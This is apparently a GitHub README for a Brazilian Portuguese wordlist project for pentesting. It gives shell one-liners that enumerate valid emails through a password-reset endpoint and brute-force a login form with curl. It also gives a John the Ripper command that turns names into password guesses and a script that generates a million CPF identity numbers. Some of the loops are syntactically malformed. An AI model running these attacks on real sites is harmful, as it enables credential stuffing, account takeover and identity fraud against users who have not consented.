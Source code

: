# Wordlists-PT-BR
Wordlists em PT-BR, desde nomes, sobrenomes, e em breve adicionaremos endpoints em português para fuzzing. Todas as informações foram extraídas de fontes públicas.


### Criar wordlist de emails concatenando `nome.sobrenome@domain.com`
```
./wlcreator.sh nomes.txt . sobrenomes.txt domain.com emails.txt
```
### Brute Force para encontrar emails válidos - Reset Password
```
for email in `cat emails.txt`; do curl -X POST --data "email=$email" "https://domain.com.br/reset-password" -s; done
```
or
```
for nome in `cat nomes.txt`; for sobrenome in `cat sobrenomes.txt`; do curl -X POST --data "email=$nome.$sobrenome@domain.com.br" "https://domain.com.br/resetpassword" -s ; done
```
### Gerar mutação de senha através de poucos nomes fornecidos no txt
```
john --rules=all --stdout --wordlist=nomes.txt > passwords.txt 
```
### Brute Force - Login
```
for email in `cat emails.txt`; for password in `cat passwords.txt`; do curl -X POST --data "email=$email&password=$password" "https://domain.com.br/login" -s; done
```

### CPFGenerator
```
python cpfgenerator.py -n 1000000
```
